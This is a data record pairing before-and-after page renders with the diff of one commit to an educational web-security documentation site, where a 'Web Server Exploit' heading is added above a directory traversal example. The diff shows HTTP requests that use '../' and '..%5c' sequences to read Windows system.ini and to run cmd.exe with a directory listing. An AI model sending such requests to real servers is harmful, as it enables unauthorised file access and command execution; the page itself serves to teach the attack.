

Before and after one commit to pvcraven/2017_web_security, a Sphinx documentation site: the page built from source/directory_traversal/directory_traversal.rst, in a window 1280 px wide and 900 px high, scrolled down 1195 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/directory_traversal/directory_traversal.rst
+++ b/source/directory_traversal/directory_traversal.rst
@@ -79,6 +79,8 @@
 	GET http://test.webarticles.com/show.asp?view=../../../../../Windows/system.ini HTTP/1.1
 	Host: test.webarticles.com
 
+Web Server Exploit
+
 	GET http://server.com/scripts/..%5c../Windows/System32/cmd.exe?/c+dir+c:\ HTTP/1.1
 	Host: server.com
 
```
